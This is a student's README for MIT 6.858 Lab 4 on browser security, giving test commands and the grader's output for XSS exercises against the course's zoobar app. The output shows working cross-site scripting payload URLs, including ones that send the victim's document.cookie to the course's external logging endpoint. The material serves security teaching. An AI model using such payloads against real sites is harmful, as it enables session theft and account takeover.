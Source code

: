 # Lab 4: Browser Security

This is the fourth lab from the MIT 6.858 Computer Security Systems class which is available for free on [MIT OpenCourseWare](https://ocw.mit.edu/courses/6-858-computer-systems-security-fall-2014/). I followed this online course independently and completed the labs on my own VM.

[Lab 4 Instructions](https://css.csail.mit.edu/6.858/2020/labs/lab4.html) 

My solutions to the exercises in this lab can be found in the files prefixed with `answer-`.

Use the following commands to run the test suite:

```xslt
$ git clone https://github.com/NolanJMcCafferty/MIT-6.858-Computer-Systems-Security
$ cd MIT-6.858-Computer-Systems-Security
$ git checkout lab4
$ make check
```

Test Results: 
 
(output lines with `[ ???? ]` indicate that the result must be checked manually by the course grader)

```$xslt
student@6858-v20:~/lab$ make check
./check-lab4.sh
Generating reference images...
Registering as grader, graderpassword
Registering as attacker, attackerpassword
Registering as grader1, password1
Registering as grader2, password2
Registering as grader3, password3
[ INFO ]: Testing exploit for Exercise 1...
Registering as grader, graderpassword
Registering as attacker, attackerpassword
Expecting cookie: grader#1477552cbb6dfd457241c2cc56bc3e90
[ PASS ]: alert contains: grader#1477552cbb6dfd457241c2cc56bc3e90
[ INFO ]: Testing exploit for Exercise 2...
Registering as grader, graderpassword
Registering as attacker, attackerpassword
[ ???? ]: Check log (https://css.csail.mit.edu/6.858/2020/labs/log.php), expecting string 'grader#42e300b5713788f6b0b8def8fdb7b841'
[ INFO ]: Testing exploit for Exercise 3...
Found URL: http://localhost:8080/zoobar/index.cgi/users?user=%22%20onfocus=%22alert(document.cookie)%22%20autofocus=%22&random=3
Registering as grader, graderpassword
Registering as attacker, attackerpassword
Expecting cookie: grader#fadb2d9c086b832f876cd867e0afdce4
[ PASS ]: alert contains: grader#fadb2d9c086b832f876cd867e0afdce4
[ INFO ]: Testing exploit for Exercise 4...
Found URL: http://localhost:8080/zoobar/index.cgi/users?user=%22%20onfocus=%22var%20img%20%3D%20new%20Image()%3Bimg.src%3D%27https%3A%2F%2Fcss.csail.mit.edu%2F6.858%2F2020%2Flabs%2Flog.php%3F%27%20%2B%20%27id%3Drollhens%27%20%2B%20%27%26payload%3D%27%20%2B%20encodeURIComponent(document.cookie)%20%2B%20%27%26random%3D%27%20%2B%20Math.random()%3Bimg.click()%3B%22%20autofocus=%22&random=3
Registering as grader, graderpassword
Registering as attacker, attackerpassword
[ ???? ]: Check log (https://css.csail.mit.edu/6.858/2020/labs/log.php), expecting string 'grader#4a37759281624413966ac76dbe6a7010'
[ INFO ]: Testing exploit for Exercise 5...
Found URL: http://localhost:8080/zoobar/index.cgi/users?user=%22%20onfocus%3D%22var%20img%20%3D%20new%20Image()%3Bimg.src%3D%27https%3A%2F%2Fcss.csail.mit.edu%2F6.858%2F2020%2Flabs%2Flog.php%3F%27%20%2B%20%27id%3Drollhens%27%20%2B%20%27%26payload%3D%27%20%2B%20encodeURIComponent(document.cookie)%20%2B%20%27%26random%3D%27%20%2B%20Math.random()%3Bimg.click()%3Bwindow.onload%20%3D%20function()%20%7Bdocument.getElementsByClassName(%27warning%27)%5B0%5D.style.display%20%3D%20%27none%27%3B%7D%22%20autofocus%3D%22
Registering as grader, graderpassword
Registering as attacker, attackerpassword
[ ???? ]: Check log (https://css.csail.mit.edu/6.858/2020/labs/log.php), expecting string 'grader#e2a2cebedd95ec484acb6574237c2f8c'
[ PASS ]: ./lab4-tests/answer-5.png matched reference image (557200 non-background pixels)
[ INFO ]: Testing exploit for Exercise 6...
Registering as grader, graderpassword
Registering as attacker, attackerpassword
[ PASS ]: grader zoobar count
[ PASS ]: attacker zoobar count
[ INFO ]: Testing exploit for Exercise 7...
Registering as grader, graderpassword
Registering as attacker, attackerpassword
[ PASS ]: grader zoobar count
[ PASS ]: attacker zoobar count
[ INFO ]: Testing exploit for Exercise 8...
Registering as grader, graderpassword
Registering as attacker, attackerpassword
Loading attacker page. If you get a timeout here you're not redirecting to http://css.csail.mit.edu/6.858/2020/.
[ PASS ]: visited final page
[ PASS ]: grader zoobar count
[ PASS ]: attacker zoobar count
```
